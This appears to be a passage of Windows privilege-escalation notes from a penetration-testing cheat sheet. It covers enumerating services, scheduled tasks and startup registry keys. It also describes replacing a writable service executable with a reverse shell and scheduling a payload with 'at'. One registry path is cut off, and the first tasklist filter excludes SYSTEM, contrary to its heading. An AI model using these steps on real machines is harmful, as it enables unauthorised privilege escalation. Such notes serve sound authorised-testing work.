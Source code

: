 ## Services

### Any services running as SYSTEM?
* `tasklist /fi "USERNAME ne NT AUTHORITY\SYSTEM" /fi "STATUS eq running"`

### Orphaned installs

Not installed anymore but still exist in startup.

### Insecure File/Folder Permissions

Unquoted Service Paths takes advantage of folder permissions along the executable file path of a service. But here we will try to replace the executable directly.

We have to check permissions for our Vulnerable Service’s executable path:
```
icacls "C:\Program Files (x86)\Program Folder\A Subfolder"
```

Simply replacing service executable file with a reverse shell payload and restarting the service.

### Scheduled Tasks

Look for anything custom, run by a privileged user, and running a binary we can overwrite:
```
cmd > schtasks /query /fo LIST 2>nul | findstr TaskName
cmd > dir C:\windows\tasks
PS > Get-ScheduledTask | ft TaskName, State
PS > Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Check this file:
```
c:\WINDOWS\SchedLgU.Txt
```

Startup tasks
```
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

### Task Scheduler

This method only works on a Windows 2000, XP, or 2003 machine. You must have local administrator privileges to manage scheduled tasks.

* Start `Task Scheduler`: `net start "Task Scheduler"`
* Get current time: `time`
* Create a task that will run our executable about 1 minute after the current time:
```
at 06:42 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
```
